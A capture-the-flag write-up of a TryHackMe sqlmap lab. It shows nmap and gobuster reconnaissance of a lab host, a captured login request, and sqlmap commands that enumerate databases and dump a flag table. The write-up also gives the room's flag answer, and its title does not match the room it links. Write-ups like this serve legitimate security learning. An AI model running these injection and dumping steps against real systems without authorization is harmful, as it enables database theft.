





# Vulnversity

## Room Information

- **Difficulty:** Easy
- **Room URL:** [https://tryhackme.com/room/sqlmap](https://tryhackme.com/room/sqlmap)
- **Date Completed:** 2025-12-04

## Overview
Learn about and use Sqlmap to exploit the web application

## New Tools
### sqlmap
sqlmap is a tool that automates the process of detecting and exploiting SQL injection vulnerabilities in web applications.

[https://sqlmap.org/](https://sqlmap.org/)

## Reconnaissance
### nmap

```shell
nmap -sV -oN nmap.log 10.49.186.68

Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### gobuster
`-t` is the number of threads.

```shell
$ gobuster dir -u http://10.49.186.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/blood                (Status: 301) [Size: 194] [--> http://10.49.186.68/blood/]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

### Explore the website
You can find search page in blood directory.  
http://10.49.186.68/blood/

It seams like retrieving data from database.



It has the login page.  
http://10.49.186.68/blood/dashboard.php




## Exploitation

### sqlmap

Copy request headers from network tab and paste it to post_login.txt as a request file.

```shell
$ vim post_login.txt
POST /blood/auth.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 25
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=ucvag6juu4t5lpj338a2k31ej2
DNT: 1
Host: 10.49.186.68
Origin: http://10.49.186.68
Pragma: no-cache
Referer: http://10.49.186.68/blood/login.php
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/142.0.0.0 Safari/537.36
```



Add parameters to the bottom of the request file.

```shell
....

username=aaa&password=aaa
```



Run sqlmap with the request file and parameters.

- `-r` is the option that load HTTP request from a file.
- `-p` is the option that specify the parameters to find vulnerable.
- `--dbs` is the option that enumerate DBMS databases to get database names.

```shell
$ sqlmap -r post_login.txt -p username,password --dbs

[00:40:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.6
[00:40:52] [INFO] fetching database names
[00:40:53] [INFO] retrieved: 'information_schema'
[00:40:53] [INFO] retrieved: 'blood'
[00:40:53] [INFO] retrieved: 'mysql'
[00:40:54] [INFO] retrieved: 'performance_schema'
[00:40:54] [INFO] retrieved: 'sys'
[00:40:54] [INFO] retrieved: 'test'
```

Find current user.

```shell
$ sqlmap -r post_login.txt -p username --current-user
[03:08:50] [INFO] fetching current user
[03:08:51] [INFO] retrieved: 'root@localhost'
current user: 'root@localhost'
```

Find tables in the blood database.

```shell
$ sqlmap -r post_login.txt -p username -D blood --tables

[03:09:19] [INFO] fetching tables for database: 'blood'
[03:09:21] [INFO] retrieved: 'blood_db'
[03:09:22] [INFO] retrieved: 'flag'
[03:09:23] [INFO] retrieved: 'users'
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+
```

Show all records in the flag table.

```shell
$ sqlmap -r post_login.txt -p username -D blood -T flag --dump

[03:10:02] [INFO] retrieved: '1'
Database: blood
Table: flag
[1 entry]
+----+---------------------+--------+
| id | flag                | name   |
+----+---------------------+--------+
| 1  | thm{sqlm@p_is_L0ve} | flag   |
+----+---------------------+--------+
```

Flag is `thm{sqlm@p_is_L0ve}`

## Tools Used

- nmap
- gobuster
- sqlmap

## Completed


